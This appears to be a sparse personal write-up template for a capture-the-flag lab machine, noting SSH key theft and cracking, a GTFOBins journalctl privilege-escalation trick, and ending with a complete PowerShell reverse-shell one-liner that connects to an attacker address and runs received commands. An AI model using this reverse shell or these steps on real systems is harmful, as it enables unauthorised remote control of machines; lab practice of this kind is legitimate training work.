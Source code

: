 # Information gathering

## Port Scan

``` bash
10.10.10.165
```
![[Pasted image 20230201115700.png]]
## Service Enumerate

### Web Enumerate

### Service 2


## Password Crack
### john

### hydra


# Exploit

## Initial Foothold

### Exploit method

### Vulnerability Explanation

### Exp code or link

### Proof screen shot

![[Pasted image 20230201151630.png]]

## Lateral Movement

download .ssh id_rsa file 
![[Pasted image 20230201163355.png]]

### Exploit method

crack encrypted id_rsa with johntheripper

### Exp code or link

### Proof screen shot


## Privilege Escalation
![[Pasted image 20230201170621.png]]
### Exploit method
gtfbins 中可以了解到https://gtfobins.github.io/gtfobins/journalctl/
设置 rows 3保证触发less 自动分页
### Exp code or link

### Proof screen shot

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.16.5",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![[Pasted image 20230201170751.png]]